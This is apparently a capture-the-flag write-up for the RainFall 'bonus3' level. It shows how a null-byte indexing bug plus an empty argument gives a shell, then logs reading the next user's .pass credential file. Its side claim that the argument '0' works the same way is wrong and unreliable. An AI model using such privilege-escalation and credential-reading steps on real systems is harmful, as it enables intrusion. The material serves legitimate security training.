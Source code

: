 # Vulnerability
Logic bug: buffer[atoi(argv[1])] = '\0' allows placing null byte anywhere in buffer.


# Exploitation Strategy
1.atoi("") or atoi("0") returns 0
2.Sets buffer[0] = '\0' making buffer empty string
3.strcmp("", "") returns 0 → true
4.Triggers execl("/bin/sh")


# Understanding the Bug
```sh
# Normal flow:
buffer[0-65]  = first 66 bytes from file
buffer[65]    = '\0'
buffer[atoi(argv[1])] = '\0'  # Place null byte
buffer[66-130] = next 65 bytes from file

# If we compare buffer with argv[1]:
strcmp(buffer, argv[1]) == 0 → shell
```


# Exploitation
```py
#!/usr/bin/env python
# Empty string: atoi("") = 0
# Sets buffer[0] = '\0'
# strcmp("", "") = 0 → SUCCESS!

print ""
# or (print "0"  # atoi("0") = 0, same effect)

```

# Execution
```sh
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

# Key Concepts

Logic vulnerability
Null byte injection
strcmp() behavior with empty strings
atoi() edge cases
Simple != secure